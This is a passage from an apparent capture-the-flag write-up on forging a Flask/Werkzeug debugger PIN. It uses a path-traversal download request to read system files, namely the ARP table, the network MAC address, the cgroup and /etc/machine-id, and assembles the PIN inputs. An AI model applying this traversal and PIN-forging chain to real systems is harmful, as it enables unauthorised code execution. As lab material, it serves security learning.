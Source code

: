 Let’s put that there. So public bits array will look like this

```bash
probably_public_bits = [
    'www-data',  # username /proc/self/environ
    'flask.app',  # modname
    'wsgi_app',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
```

Now to get the private bits. We need to grab the MAC address of the target system. 

```bash
/download?fn=../proc/net/arp

result:
IP address       HW type     Flags       HW address            Mask     Device
10.129.0.1       0x1         0x2         00:50:56:b9:f8:ec     *        eth0

As we can see in the output the device is called eth0 . Now we can proceed to read the MAC address from /sys/class/net/eth0/address

00:50:56:94:6b:d2

#We also need to convert the MAC address from hexadecimal to decimal. We can do it via python

python3 -c 'print(0x005056946bd2)'

result:
345049951186
```

Now we need to find the machine ID. The machine ID is a concatenation of two parts:

```bash
1. /proc/self/cgroup after the final /
0::/system.slice/superpass.service

superpass.service

2. value of /etc/machine-id 

ed5b159560f54721827644bc9b220d00

MachineID = ed5b159560f54721827644bc9b220d00superpass.service
```

Private bits:

```bash
private_bits = [
    '345049951186',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'  # get_machine_id(), /etc/machine-id
]

```
